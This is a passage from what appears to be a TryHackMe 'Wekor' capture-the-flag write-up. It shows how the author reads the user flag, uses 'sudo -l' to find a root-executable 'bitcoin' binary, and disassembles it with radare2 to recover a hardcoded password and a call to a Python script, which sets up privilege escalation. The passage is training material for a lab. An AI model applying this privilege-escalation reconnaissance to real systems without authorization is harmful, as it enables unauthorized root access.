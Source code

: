 Great! User **Orka** is now available to take control and simply get the user flag in the user’s workstation:

```
Orka@osboxes:~$ cat user.txt
cat user.txt
[REDACTED]
```

### Vertical Privilege Escalation → root

```
Orka@osboxes:~/Desktop$ sudo -l
sudo -l
[sudo] password for Orka: [REDACTED]

Matching Defaults entries for Orka on osboxes:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User Orka may run the following commands on osboxes:
    (root) /home/Orka/Desktop/bitcoin
```

Type `sudo -l` and I discovery the **bitcoin** binary is available to execute as **root** (using **sudo** command). I navigate to the binary’s location:

```
Orka@osboxes:~/Desktop$ ls -l
ls -l
total 12
-rwxr-xr-x 1 root root 7696 Jan 23  2021 bitcoin
-rwxr--r-- 1 root root  588 Jan 23  2021 transfer.py
```

Then transfer the **bitcoin** binary to the local machine to analyze it:

```
┌──(kali㉿kali)-[~/TryHackMe/wekor]
└─$ ls -l
total 44
-rw-r--r-- 1 kali kali  7696 Jan 23  2021 bitcoin
-rw-r--r-- 1 kali kali   139 Sep 25 08:49 hash
```

I use **radare2** to analyze the file and figure out the **input password** required:

```
0x0804866c      6836880408     push str.password           ; 0x8048836 ; "password" ; const char *s2
```

One more interested thing that it call to the **transfer.py** in the same location:

```
0x0804875f      6868890408     push str.python__home_Orka_Desktop_transfer.py__c ; 0x8048968 ; "python /home/Orka/Desktop/transfer.py %c" ; const char *format
```
